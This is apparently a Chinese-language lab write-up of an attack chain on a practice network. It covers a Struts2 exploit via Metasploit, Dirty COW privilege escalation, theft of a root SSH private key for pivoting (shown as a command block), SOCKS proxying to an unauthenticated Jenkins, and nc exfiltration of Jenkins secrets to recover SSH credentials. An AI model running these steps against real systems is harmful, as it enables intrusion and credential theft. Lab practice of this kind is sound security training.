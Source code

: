 ![image-20240415100157031](http://cdn.33129999.xyz/mk_img/image-20240415100157031.png)

这个靶场的nat的ip：172.16.250.0


^
172.16.250.10上有tomcat运行的struts2网站漏洞，使用MSF利用，getshell。
10：
上传提权探测脚本，使用msf的upload 或 curl脏牛脚本 到/tmp目录，编译运行，使用脏牛提权。

30：
使用cp命令将./ssh的公钥复制到/tmp目录，再下载，使用ssh在10主机免密连接30主机。
```
cat ~/.bash_history
cp ~/.ssh/id_rsa /tmp/id_rsa
chmod 777 id_rsa
download  /tmp/id_rsa /root/id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@172.16.250.30
```

再用MSF通过172.16.250.10进行socks代理，使得可以未授权访问172.16.250.30:8080的JenKins服务，Jenkins版本有漏洞可以直接运行python代码，还有密钥漏洞。破解密钥就可以拿下172.16.250.50。

linux中自带nc，此时用nc将172.16.250.30上的JenKins密钥文件反弹下载，用python脚本解密，就是172.16.250.50的ssh账号密码。
